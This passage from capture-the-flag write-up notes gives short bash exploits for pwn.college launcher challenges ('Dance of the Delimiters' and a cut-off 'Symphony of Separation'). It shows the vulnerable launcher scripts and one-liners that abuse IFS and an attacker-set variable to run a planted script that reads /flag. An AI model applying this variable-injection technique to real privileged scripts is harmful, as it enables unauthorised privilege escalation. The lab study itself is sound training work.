 ### exploit
```
echo "cat /flag" > /tmp/tmp
/challenge/run IFS . fortune

OR

echo "cat /flag" > =a && chmod +x =a
/challenge/run PROGRAM=/home/hacker/ a fortune
```

# Dance of the Delimiters

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
WORKDIR=$(mktemp -d) || exit 1
cd $WORKDIR

echo -e "Welcome! This is a launcher that lets you set an environment variable and then run a program!\nUsage: $0 VARNAME VARVALUE PROGRAM"
[ "$#" -eq 3 ] || exit 2

if [ "$3" != "fortune" ]
then
	echo "Only 'fortune' is supported right now!"
	exit 3
else
	cp /usr/games/fortune $WORKDIR
	PROGRAM="$WORKDIR/fortune"
fi

[[ "$1" = *PROGRAM* ]] && exit 4
declare -- "$1"="$2"
$PROGRAM
```

### exploit
```sh
echo "cat /flag" > /tmp/tmp && chmod +x /tmp/tmp
/challenge/run IFS . fortune
```

# Symphony of Separation

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
WORKDIR=$(mktemp -d /tmp/tmpXXXXXXX) || exit 1
cd $WORKDIR

echo -e "Welcome! This is a launcher that lets you set an environment variable and then run a program!\nUsage: $0 VARNAME VARVALUE PROGRAM"
[ "$#" -eq 3 ] || exit 2

if [ "$3" != "fortune" ]
then
```